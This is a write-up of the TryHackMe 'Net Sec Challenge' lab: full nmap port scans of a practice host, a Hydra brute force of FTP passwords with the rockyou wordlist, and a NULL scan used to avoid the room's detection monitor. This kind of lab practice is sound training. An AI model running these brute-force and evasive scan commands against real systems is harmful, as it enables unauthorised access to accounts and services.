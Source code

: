 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```


```bash
# PLATFORM          . THM
# CTF NAME          . Net Sec Challenge
# DESCRIPTION       . Practice the skills you have learned in the Network Security module.
# DIFFICULTY        . Medium
# CTF LINK          . https://tryhackme.com/room/netsecchallenge
```

________________________________________________

- Since this is a challenge designed around nmap and Hydra, I started by scanning the target for both TCP and UDP open ports

`sudo nmap -sSUVC -p- 10.10.52.227 -T4 -oG CTF`

```bash
# scan output

Host is up (0.11s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946{REDACTED}39}
| ssh-hostkey: 
|   3072 da5f69e2111f7c6680896154e87b16f3 (RSA)
|   256 3f8c0946ab1cdfd73583cf6d6e177e1c (ECDSA)
|_  256 eda93aaa4c6b16e60d437546fb33b229 (ED25519)
80/tcp    open  http        lighttpd
|_http-server-header: lighttpd THM{web{REDACTED}5352}
|_http-title: Hello, world!
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
8080/tcp  open  http        Node.js (Express middleware)
|_http-title: Site doesn\'t have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
10021/tcp open  ftp         vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.93%I=7%D=10/10%Time=652565F1%P=x86_64-pc-linux-gnu%r(NUL
SF:L,29,\"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n\");
Service Info: OS: Unix

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T14:55:51
|_  start_date: N/A
|_nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.94 seconds

```


- From this output alone, we can answer several questions

		- What is the highest port number being open less than 10,000? : 8080
		- There is an open port above 10,000. What is it? : 10021
		- How many TCP ports are open? : 6
		- What is the flag hidden in the HTTP server header? : THM{we{REDACTED}5352}
		- What is the flag hidden in the SSH server header? : THM{94{REDACTED}3339}
		- What is the version of the FTP server? : vsftpd 3.0.3

- The next step of the challenge provides us two usernames, `eddie` and `quinn` and asks for the flag located in a file hosted on the FTP service, but we don't know the password for these accounts.

- I have brute-forced the FTP service (located on custom port `10021`) by using

`hydra -l [username] -P /usr/share/wordlists/rockyou.txt 10.10.52.227 ftp -s 10021`

- The password for `eddie` is `j{REDACTED}n`.
- The password for `quinn` is `a{REDACTED}a`.

- We can connect to `ftp` using both accounts to check for the file using

`ftp username@10.10.52.227 -p 10021`

- Once we find the file, it can be retrieved using `get [filename]`.

- The flag is `THM{32{REDACTED}67098}`.


- The last challenge was to scan the endpoint again, but this  time by monitoring the detection rate located on the webserver (`port 8080`). 

- I tried several nmap scan types, including Stealth SYN Scan, decreasing the Timing / modifying the performance, but it seems that only `NULL Scan` would reveal the flag.

`nmap -sN -n 10.10.52.227`

- The flag is THM{f7{REDACTED}99} 


I'd say this is a very easy challenge to verify your basic nmap understanding. It was fun, but simple. :) 